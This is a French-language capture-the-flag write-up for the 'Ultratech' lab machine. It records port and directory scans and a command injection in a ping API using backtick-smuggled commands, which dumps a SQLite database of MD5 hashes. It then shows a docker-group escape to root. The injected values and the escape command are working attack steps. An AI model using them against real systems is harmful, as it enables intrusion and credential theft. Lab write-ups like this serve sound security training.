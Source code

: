 # Ultratech
Une room sympa mais très (trop ?) simple :)
# Enum
## Nmap
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-09 03:57 EDT
Nmap scan report for 10.10.32.31
Host is up (0.040s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
|_  256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
8081/tcp  open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.53 seconds
```
## Gobuster
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 320] [--> http://10.10.32.31:31331/images/]
/css                  (Status: 301) [Size: 317] [--> http://10.10.32.31:31331/css/]
/js                   (Status: 301) [Size: 316] [--> http://10.10.32.31:31331/js/]
/javascript           (Status: 301) [Size: 324] [--> http://10.10.32.31:31331/javascript/]
/server-status        (Status: 403) [Size: 302]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```
## Basic Enum
On va vérifier la page robots.txt qui affiche bien souvent des informations utile !
```
Allow: *
User-Agent: *
Sitemap: /utech_sitemap.txt
```
Il y a un site map dans un fichier texte, on va le check:
```
/
/index.html
/what.html
/partners.html
```
La page /partners.html ouvre un page qui demande un login.

# RestAPI 
On vois avec Burpsuite que l'API envoi des ping vers lui-même:
```
GET /ping?ip=10.10.32.31 HTTP/1.1
[...]
```
Je vais tenter une injection de commande....

# Command Injection
Les commandes sont filtré mais je trouve comment bypass :

L'url suivante :
```
http://10.10.32.31:8081/ping?ip=127.0.0.1|`id`
```
Fonctionne et donne ce résultat :
```
ping: groups=1002(www): Temporary failure in name resolution 
```
C'est tronquer, mais ca fonctionne. Je trouve ainsi la base de données : **utech.db.sqlite**

On va essaye de la lire :
```
http://10.10.32.31:8081/ping?ip=127.0.0.1|`cat utech.db.sqlite`
```
```
ping: ) ���(Mr00tf357a0c52799563c7c7b76c1e7******)Madmin0d0ea5111e3c1def594c1684e3******: Parameter string not correctly encoded 
```
Nous avons donc ici 2 hash.
```
r00tf357a0c52799563c7c7b76c1e7******
admin0d0ea5111e3c1def594c1684e3*****
```
Ils sont en MD5, les voici une fois crack :
```
admin : mr******
r00t : n******
```
En les testant sur la page partner on obtiens ce résultat :
```
Restricted area

Hey r00t, can you please have a look at the server's configuration?
The intern did it and I don't really trust him.
Thanks!

lp1
```

On peux aller sur le FTP mais celui-ci est vide.
On peux se connecté en SSH seulement avec le compte de r00t.

# Privesc !
L'user **r00t** fait parti du groupe **docker**
On va tenter une privesc via dockers.

Pour ce faire on va déjà lister les images :
```
r00t@ultratech-prod:/tmp$ docker image ls
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        4 years ago         15.8MB
```
Ensuite on va démarrer un shell root sur notre image:
```
r00t@ultratech-prod:/tmp$ docker run -it -v /:/host/ 495d6437fc1e chroot /host/ bash
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@d2312f28b9a2:/#
```
Nous voila root. Le flag est la clé ssh qui ce trouve dans **/root/.ssh/id_rsa**
